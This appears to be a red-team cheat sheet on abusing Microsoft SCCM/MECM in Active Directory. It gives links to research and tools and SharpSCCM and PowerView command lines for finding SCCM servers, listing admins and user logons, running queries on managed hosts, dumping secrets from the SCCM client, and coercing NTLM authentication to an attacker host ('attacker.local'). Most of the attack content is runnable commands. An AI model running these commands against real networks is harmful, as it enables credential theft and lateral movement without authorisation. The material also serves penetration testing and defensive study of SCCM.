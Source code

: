 ```yaml
---
description: System Center Configuration Manager / Microsoft Endpoint Configuration Manager
---
```


# SCCM Abuse

- [https://www.thehacker.recipes/ad/movement/sccm-mecm](https://www.thehacker.recipes/ad/movement/sccm-mecm)
- [https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)
- [https://www.hub.trimarcsecurity.com/post/push-comes-to-shove-exploring-the-attack-surface-of-sccm-client-push-accounts](https://www.hub.trimarcsecurity.com/post/push-comes-to-shove-exploring-the-attack-surface-of-sccm-client-push-accounts)
- [https://www.securesystems.de/blog/active-directory-spotlight-attacking-the-microsoft-configuration-manager/](https://www.securesystems.de/blog/active-directory-spotlight-attacking-the-microsoft-configuration-manager/)
- [https://http418infosec.com/offensive-sccm-summary](https://http418infosec.com/offensive-sccm-summary)

{% embed url="https://github.com/subat0mik/Misconfiguration-Manager/blob/main/README.md#sccm-attack-matrix" caption="Misconfiguration Manager / SCCM Attack Matrix" %}




## Enumeration

Look for CcmExec.exe processes:

```
Cmd > tasklist | findstr CcmExec
```

Search for SCCM servers in LDAP:

```
PV3 > Get-DomainComputer -LDAPFilter "(&(objectClass=computer)(cn=*sccm*))" | select -ExpandProperty dnsHostName
PV3 > Get-DomainComputer | ? {$_.Name -like "*sccm*"} | select -ExpandProperty dnsHostName
```




## Tools



### MalSCCM

- [https://labs.nettitude.com/blog/introducing-malsccm/](https://labs.nettitude.com/blog/introducing-malsccm/)
- [https://github.com/nettitude/MalSCCM](https://github.com/nettitude/MalSCCM)



### sccmwtf

- [https://blog.xpnsec.com/unobfuscating-network-access-accounts/](https://blog.xpnsec.com/unobfuscating-network-access-accounts/)
- [https://github.com/xpn/sccmwtf](https://github.com/xpn/sccmwtf)



### SharpSCCM

- [https://github.com/Mayyhem/SharpSCCM](https://github.com/Mayyhem/SharpSCCM)
- [https://www.guidepointsecurity.com/blog/sccm-exploitation-evading-defenses-and-moving-laterally-with-sccm-application-deployment/](https://www.guidepointsecurity.com/blog/sccm-exploitation-evading-defenses-and-moving-laterally-with-sccm-application-deployment/)

Get SMS (Systems Management Server) and SC (Site Code):

```
Cmd > SharpSCCM.exe local site-info
```

List SCCM admins:

```
Cmd > SharpSCCM.exe get admins -sms <SMS> -sc <SC>
```

List user latest logons:

```
Cmd > SharpSCCM.exe get class-instances -sms <SMS> -sc <SC> SMS_R_System -p Name -p DistinguishedName -p IPAddresses -p LastLogonUserDomain -p LastLogonUserName -p LastLogonTimestamp -w "LastLogonUserName LIKE '%snovvcrash%'"
Cmd > SharpSCCM.exe get devices -p Name -p DistinguishedName -p IPAddresses -p LastLogonUserDomain -p LastLogonUserName -p LastLogonTimestamp -u snovvcrash@megacorp.local
```

Get resource (server) ID:

```
Cmd > SharpSCCM.exe get resource-id -sms <SMS> -sc <SC> -d <RESOURCE>
```

Execute WMI command on a resource:

```
Cmd > SharpSCCM.exe invoke admin-service -sms <SMS> -sc <SC> -q "EventLog('Security',4h) | where EventID == 4624 | order by DateTime desc" -r <ID>
```

Grab secrets from SCCM client (locally):

```
Cmd > SharpSCCM.exe local secrets -m disk
```

Coerce authentication from SCCM server (remotely):

```
Cmd > SharpSCCM.exe invoke client-push -t attacker.local
```
